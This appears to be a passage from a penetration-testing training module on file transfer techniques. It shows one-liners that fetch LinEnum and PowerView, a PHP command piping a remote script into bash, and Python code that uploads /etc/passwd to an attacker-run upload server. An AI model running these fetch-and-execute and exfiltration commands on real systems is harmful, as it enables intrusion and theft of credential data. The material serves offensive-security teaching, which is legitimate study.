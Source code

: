 ## Python
#### Python 2 - Download

```shell-session
alakin2504@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### Python 3 - Download

```shell-session
alakin2504@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

## PHP
#### PHP Download with File_get_contents()


```shell-session
alakin2504@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

An alternative to `file_get_contents()` and `file_put_contents()` is the [fopen() module](https://www.php.net/manual/en/function.fopen.php). We can use this module to open a URL, read it's content and save it into a file.

#### PHP Download with Fopen()


```shell-session
alakin2504@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

We can also send the downloaded content to a pipe instead, similar to the fileless example we executed in the previous section using cURL and wget.

#### PHP Download a File and Pipe it to Bash

```shell-session
alakin2504@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## JavaScript

JavaScript is a scripting or programming language that allows you to implement complex features on web pages. Like with other programming languages, we can use it for many different things.

The following JavaScript code is based on [this](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) post, and we can download a file using it. We'll create a file called `wget.js` and save the following content:
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
#### Download a File Using JavaScript and cscript.exe


```cmd-session
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

## VBScript

[VBScript](https://en.wikipedia.org/wiki/VBScript) ("Microsoft Visual Basic Scripting Edition") is an Active Scripting language developed by Microsoft that is modeled on Visual Basic. VBScript has been installed by default in every desktop release of Microsoft Windows since Windows 98.

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our VBScript code and download a file.

#### Download a File Using VBScript and cscript.exe

```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## Upload Operations using Python3

If we want to upload a file, we need to understand the functions in a particular programming language to perform the upload operation. The Python3 [requests module](https://pypi.org/project/requests/) allows you to send HTTP requests (GET, POST, PUT, etc.) using Python. We can use the following code if we want to upload a file to our Python3 [uploadserver](https://github.com/Densaugeo/uploadserver).

#### Starting the Python uploadserver Module
```shell-session
alakin2504@htb[/htb]$ python3 -m uploadserver 

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
#### Uploading a File Using a Python One-liner
```shell-session
alakin2504@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```